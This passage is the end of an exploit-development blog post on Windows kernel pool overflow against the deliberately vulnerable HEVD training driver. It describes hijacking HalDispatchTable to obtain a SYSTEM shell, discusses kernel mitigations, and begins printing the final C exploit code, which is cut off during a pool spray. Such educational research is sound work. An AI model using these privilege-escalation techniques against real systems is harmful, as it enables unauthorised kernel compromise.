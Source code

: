 Next, we can add the routing to dynamically resolve `ntdll!NtQueryIntervalProfile`, invoke it, and then restore `[nt!HalDispatchTable+0x8]`

<img src="{{ site.url }}{{ site.baseurl }}/images/2pool90.png" alt="">

<img src="{{ site.url }}{{ site.baseurl }}/images/2pool91.png" alt="">

The final result is a `SYSTEM` shell from low integrity!

<img src="{{ site.url }}{{ site.baseurl }}/images/2pool92.gif" alt="">

"...Unless We Conquer, As Conquer We Must, As Conquer We Shall."
---
Hopefully you, as the reader, found this two-part series on pool corruption useful! As aforementioned in the beginning of this post, we must expect mitigations such as VBS and HVCI to be enabled in the future. ROP is still a viable alternative in the kernel due to the lack of kernel CET (kCET) at the moment (although I am sure this is subject to change). As such, techniques such as the one outlined in this blog post will soon be deprecated, leaving us with fewer options for exploitation than which we started. Data-only attacks are always viable, and there have been more novel techniques mentioned, such as [this tweet](https://twitter.com/d_olex/status/1393264600515153921?s=20) sent to myself by Dmytro, which talks about leveraging ROP to forge kernel function calls even with VBS/HVCI enabled. As the title of this last section of the blog articulates, where there is a will there is a way - and although the bar will be raised, this is only par for the course with exploit development over the past few years. KPP + VBS + HVCI + kCFG/kXFG + SMEP + DEP + kASLR + kCET and many other mitigations will prove very useful for blocking most exploits. I hope that researchers stay hungry and continue to push the limits with this mitigations to find more novel ways to keep exploit development alive!

Peace, love, and positivity :-).

Here is the final exploit code, which is also available on my GitHub:

```c
// HackSysExtreme Vulnerable Driver: Pool Overflow + Memory Disclosure
// Author: Connor McGarr (@33y0re)

#include <windows.h>
#include <stdio.h>

// typdef an ARW_HELPER_OBJECT_IO struct
typedef struct _ARW_HELPER_OBJECT_IO
{
    PVOID HelperObjectAddress;
    PVOID Name;
    SIZE_T Length;
} ARW_HELPER_OBJECT_IO, * PARW_HELPER_OBJECT_IO;

// Create a global array of ARW_HELPER_OBJECT_IO objects to manage the groomed pool allocations
ARW_HELPER_OBJECT_IO helperobjectArray[5000] = { 0 };

// Prepping call to nt!NtQueryIntervalProfile
typedef NTSTATUS(WINAPI* NtQueryIntervalProfile_t)(IN ULONG ProfileSource, OUT PULONG Interval);

// Leak the base of HEVD.sys
unsigned long long memLeak(HANDLE driverHandle)
{
    // Array to manage handles opened by CreateEventA
    HANDLE eventObjects[5000];

    // Spray 5000 objects to fill the new page
    for (int i = 0; i <= 5000; i++)
    {
        // Create the objects
        HANDLE tempHandle = CreateEventA(
            NULL,
```